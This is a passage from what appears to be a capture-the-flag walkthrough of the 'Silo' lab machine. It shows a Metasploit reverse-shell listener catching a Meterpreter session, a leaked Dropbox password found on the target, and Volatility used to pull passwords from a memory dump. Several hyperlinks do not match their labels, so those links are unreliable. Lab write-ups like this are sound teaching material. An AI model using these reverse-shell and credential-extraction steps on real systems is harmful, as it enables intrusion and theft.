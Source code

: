 After uploading our shell, we will start the Metasploit framework and configure it to listen on the ports previously indicated.  
Subsequently, we only have to make a request to the route [http://10.10.10.82/shell.aspx](https://nmap.org/submit/) and in a console establish a listener to receive our reverse shell.

`   ╭─[/Ethic4l-Hacking/Operations/Silo/ODAT]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # msfconsole   msf5 exploit(multi/handler) > set LHOST 10.10.14.110   LHOST => 10.10.14.110   msf5 exploit(multi/handler) > set LPORT 443   LPORT => 443   msf5 exploit(multi/handler) > exploit`

`[] Started reverse TCP handler on 10.10.14.110:443   [] Meterpreter session 1 opened (10.10.14.110:443 -> 10.10.10.82:49177) at 2019-10-03 21:43:08`

`Microsoft Windows` [`Version 6.3.9600`](https://dev.toc/) `2013 Microsoft Corporation. All rights reserved.`

`c:\windows\system32\inetsrv> whoami   whoami   iis apppool\defaultapppool   `

Ready, we now have a Shell and with it we can execute commands on the server.

## Privilege Escalation

As you can see, there is a file called “Oracle issue.txt” in the Desktop directory. This could hold a clue to our privilege escalation vector.

`   `C:\\Users\\Phineas\\Desktop&gt; type "Oracle issue.txt"  
type "Oracle issue.txt"  
Support vendor engaged to troubleshoot Windows / Oracle performance issue (full memory dump requested):

Dropbox link provided to vendor (and password under separate cover).

Dropbox link  
[https://www.dropbox.com/sh/69skryzfszb7elq/AADZnQEbbqDoIf5L2d0PBxENa?dl=0](https://nmap.org/submit/)

link password:  
£%Hm8646uC$\`

`    The text file mentions a core dump. That's a good sign for us, because there is a high probability that that memory dump contains valuable information. Many tools will analyze memory for us and pull out valuable things like passwords. So it's pretty clear that we need to do some memory analysis.   After downloading the zip file, we unzip it and discover that it contains a core dump. We use the volatility tool to investigate the dump.    `

Using Volatility to Extract Passwords  
\`  
After downloading the crash dump, we can use volatility on it to perform forensic analysis. Volatility is built into Kali, so there is no need to do an additional installation. If you're not familiar with Volatility, you can check out this SANS cheat sheet .  
For the initial step, we would need to identify the OS version of the machine where the crash dump was taken so that the volatility plugins are accurate. Although we can simply issue a systeminfo command in our shell session, we can also identify this using a volatility plugin called imageinfo .

``    ╭─[/Ethic4l-Hacking/Operations/Silo]─[root@Arthorias]─[0]─[4438]   ╰─[:)] # volatility -f SILO-20180105-221806.dmp imageinfo   Volatility Foundation Volatility Framework 2.6   Suggested Profile(s) : Win8SP0x64, Win10x64_17134, Win81U1x64, Win10x64_10240_17770, Win2012R2x64_18340, Win10x64_14393, Win10x64, Win2016x64_14393, Win10x64_16299, Win2012R2x64, Win2012x64, Win8SP1x64_18340, Win10x64_10586, Win8SP1x64, Win10x64_15063 (Instantiated with Win10x64_15063)   AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)   AS Layer2 : WindowsCrashDumpSpace64 (Unnamed AS)   AS Layer3 : FileAddressSpace (/datos/gerh/Escritorio/Prometheus/Ethic4l-Hacking/Operations/Premium/Silo/SILO-20180105-221806.dmp)   PAE type : No PAE   DTB : 0x1a7000L   KDBG : 0xf80078520a30L   Number of Processors : 2   Image Type (Service Pack) : 0   KPCR for CPU 0 : 0xfffff8007857b000L   KPCR for CPU 1 : 0xffffd000207e8000L   KUSER_SHARED_DATA : 0xfffff78000000000L   Image date and time : 2018-01-05 22:18:07 UTC+0000   Image local date and time : 2018-01-05 22:18:07 +0000` ``
